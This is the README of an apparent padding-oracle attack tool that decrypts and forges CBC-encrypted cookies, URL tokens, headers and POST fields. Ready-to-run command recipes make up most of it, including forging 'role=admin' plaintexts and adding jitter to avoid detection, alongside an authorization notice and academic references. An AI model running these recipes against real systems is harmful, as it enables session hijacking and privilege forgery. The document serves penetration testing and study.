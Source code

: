 ![BlockParty Icon](blockparty-icon.png "BlockParty!!")

# BlockParty

BlockParty is a Hachi-integrated re-imagining of the classic PadBuster tool for performing padding oracle attacks on CBC-encrypted tokens such as cookies, URL parameters, or POST bodies. It is designed to be modern, fast, and simple to extend directly from Hachi projects.

---

## Quick Start

### Build

From your Hachi workspace:

```
hachi blockparty.hachi -build blockparty -cf "-O2 -lcurl"
```

* `blockparty` is the build target name.
* `-lcurl` links against libcurl for HTTP(S) requests.
* Do not define `BLOCKPARTY_STANDALONE` when building under Hachi.

---

### Run

Decrypt a cookie token:

```
./blockparty \
  "https://target/app" \
  "ENC" \
  16 \
  --cookies "session=ENC" \
  --usebody --tri-analyze --tui
```

Decrypt a URL parameter token:

```
./blockparty \
  "https://target/app?token=ENC" \
  "ENC" \
  0 \
  --usebody --tri-analyze --tui
```

Encrypt (forge) a plaintext:

```
./blockparty \
  "https://target/app" \
  "ENC" \
  16 \
  --cookies "session=ENC" \
  --mode encrypt --plaintext "role=admin"
```

---

## Recipes

### 1. Basic Cookie Decrypt

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "session=ENC" \
  --usebody --tri-analyze
```

### 2. Brute Force First Block

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "session=ENC" \
  --mode bruteforce --usebody --tri-analyze
```

### 3. Resume From Block 3

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "session=ENC" \
  --resume 3 --usebody --tri-analyze
```

### 4. Use Explicit Regex Signatures

```
./blockparty "https://target/app?token=ENC" "ENC" 16 \
  --sig-pad "BadPadding|Invalid padding" \
  --sig-app "Exception|Traceback" \
  --sig-valid "Welcome|OK"
```

### 5. Encrypt New Plaintext

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "session=ENC" \
  --mode encrypt --plaintext "user=alice&role=admin"
```

### 6. Disable URL-Encoding

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "token=ENC" \
  --noencode --usebody
```

---

## Troubleshooting

**Error: `encrypted sample length not divisible by blockSize`**

* The ciphertext is not aligned to the block size.
* Fixes: use the correct `BlockSize` (16 for AES, 8 for 3DES), add `--noiv` if the token lacks an IV, or set `BlockSize=0` for autodiscovery.

**Error: `sample not found in URL/POST/Cookies`**

* The sample string must appear literally in the request.
* Fixes: check for exact match, include it in cookies or POST data, or try `--noencode`.

**Error: `Unknown option: --flag`**

* An unsupported flag was used. Run with `--help` for all valid options.

**Error: `network error`**

* Target unreachable. Fixes: check URL, network, proxy settings, or TLS support in libcurl.

**Error: `block failed`**

* No valid oracle signature found. Fixes: supply regexes (`--sig-pad`, `--sig-app`, `--sig-valid`), enable `--tri-analyze`, or use `--usebody`.

---

## Common Recipes for Debugging

* **Suspect URL-encoding issues:** `--noencode`
* **Token missing IV:** `--noiv`
* **False positives:** add `--sig-pad`, `--sig-app`, `--sig-valid` with known patterns
* **Responses look identical:** `--usebody --veryverbose`
* **Unstable network:** `--rps 2 --jitter-ms 500`
* **Timing side channel:** `--timing`

---

## Real-World Scenarios

**Web Application Session Cookies**

```
./blockparty "https://app.local/home" "ENC" 16 \
  --cookies "SESSION=ENC" --usebody --tri-analyze
```

**API Tokens in Headers**

```
./blockparty "https://api.local/resource" "ENC" 16 \
  --headers "X-Auth::ENC" --usebody --tri-analyze
```

**SAML or JWT Wrappers**

```
./blockparty "https://idp.local/sso?token=ENC" "ENC" 0 \
  --usebody --tri-analyze --tui
```

**Hidden Fields in POST Requests**

```
./blockparty "https://shop.local/cart" "ENC" 16 \
  --post "cartId=ENC&item=42" --usebody --tri-analyze
```

**Legacy Systems Using 3DES**

```
./blockparty "https://legacy.local/pay" "ENC" 8 \
  --cookies "auth=ENC" --usebody --tri-analyze
```

---

## Safety and Ethics

* Use only on systems where you have explicit authorization.
* Padding oracle attacks generate heavy traffic and can impact target performance.
* Always test in staging environments when possible.
* Check program or bug bounty scope before attempting attacks.

---

## Performance Tuning

* **rps:** adjust request rate with `--rps`.
* **jitter-ms:** add random delay to avoid detection.
* **concurrency:** parallel workers for faster brute force.
* **retries:** tweak `--max-retries`, `--backoff-ms`, `--backoff-mult` for flaky targets.
* **logs:** use `--state` and `--jsonl` to resume and analyze runs.

---

## Extending the Tool

* Add custom encodings in `padsploit.hpp`.
* Modify request builder for SOAP, GraphQL, or custom formats.
* Swap out libcurl for other transports if needed.
* Script BlockParty inside larger Hachi workflows with `blockparty::run_cli(argc, argv)`.

---

## References and Learning

* Serge Vaudenay. *Security Flaws Induced by CBC Padding*. Eurocrypt 2002.
* Juliano Rizzo, Thai Duong. *Practical Padding Oracle Attacks*. 2010.
* OWASP. *OWASP Testing Guide*, section on Padding Oracle testing.
* Brian Holyfield. *PadBuster Tool*, Gotham Digital Science.
* Nadhem J. AlFardan, Kenneth G. Paterson. *Lucky Thirteen: Breaking the TLS and DTLS Record Protocols*. IEEE Symposium on Security and Privacy (S\&P), 2013.

